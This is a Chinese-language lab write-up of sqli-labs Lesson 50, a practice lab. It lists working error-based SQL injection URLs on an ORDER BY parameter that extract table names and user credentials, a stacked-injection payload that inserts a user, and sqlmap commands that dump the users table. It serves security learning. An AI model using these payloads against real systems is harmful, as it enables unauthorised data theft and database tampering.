 ```yaml
---
title: sqli-labs lession-50-GET 基于错误-数字型堆叠注入-OrderBy注入
date: 2018-11-09 09:06:13
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-50-GET 基于错误-数字型堆叠注入-OrderBy注入

---

## 登录界面

![001](/img/sql/Lesson-50/001.png)

## 注入

### 判断注入类型

![002](/img/sql/Lesson-50/002.png)

判断为数字型

### 获取数据库名

`http://10.60.17.35:8082/Less-50/?sort=1 and extractvalue(null,concat(0x7e,database(),0x7e))%23`

![003](/img/sql/Lesson-50/003.png)

### 获取表名

`http://10.60.17.35:8082/Less-50/?sort=1 and extractvalue(null,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='security'),0x7e))%23`

![004](/img/sql/Lesson-50/004.png)

### 获取列名

`http://10.60.17.35:8082/Less-50/?sort=1 and extractvalue(null,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),0x7e))%23`

![005](/img/sql/Lesson-50/005.png)

### 获取字段

`http://10.60.17.35:8082/Less-50/?sort=1 and extractvalue(null,concat(0x7e,(select concat(0x7e,username,0x7e,password)from security.users limit 0,1),0x7e))%23`

![006](/img/sql/Lesson-50/006.png)

## 堆叠注入

`http://10.60.17.35:8082/Less-50/?sort=1;insert into users(id,username,password)values(100,'huai','dan');%23`

![007](/img/sql/Lesson-50/007.png)

## SQLMAP

`sqlmap -u "http://10.60.17.35:8082/Less-50/?sort=1" --dbms mysql --technique E`

![008](/img/sql/Lesson-50/008.png)

![009](/img/sql/Lesson-50/009.png)

`sqlmap -u "http://10.60.17.35:8082/Less-50/?sort=1" --dbms mysql --technique E -D security -T users --columns --dump`

![010](/img/sql/Lesson-50/010.png)

![011](/img/sql/Lesson-50/011.png)

